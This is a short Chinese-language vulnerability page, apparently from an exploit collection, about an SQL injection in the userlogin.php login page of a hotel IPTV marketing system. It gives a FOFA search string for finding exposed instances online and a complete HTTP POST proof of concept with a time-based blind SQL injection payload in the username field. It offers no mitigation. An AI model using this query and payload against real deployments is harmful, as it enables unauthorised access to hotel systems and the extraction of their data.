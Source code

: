 # 酒店智慧营销IPTV系统userlogin.php存在sql注入漏洞

子辰视讯IPTV系统拥有电信级全业务功能，支持电视直播（IGMP组播模式和HLS单播模式同时）、4K超高清、时移回看、内网视频点播、外网OTT点播、桌面定制、应用推送、字幕广告、挂角广告、用户认证计费和到期提醒等。该系统    userlogin.php存在sql注入漏洞,攻击者可利用该漏洞获取系统信息。

## fofa

```javascript
body="xsiptvp"
```

## poc

```javascript
POST /xsiptva/cniptv/userlogin.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36

username=admin' AND (SELECT 6707 FROM (SELECT(SLEEP(5)))mQbf) AND '1'='1&password=admin
```

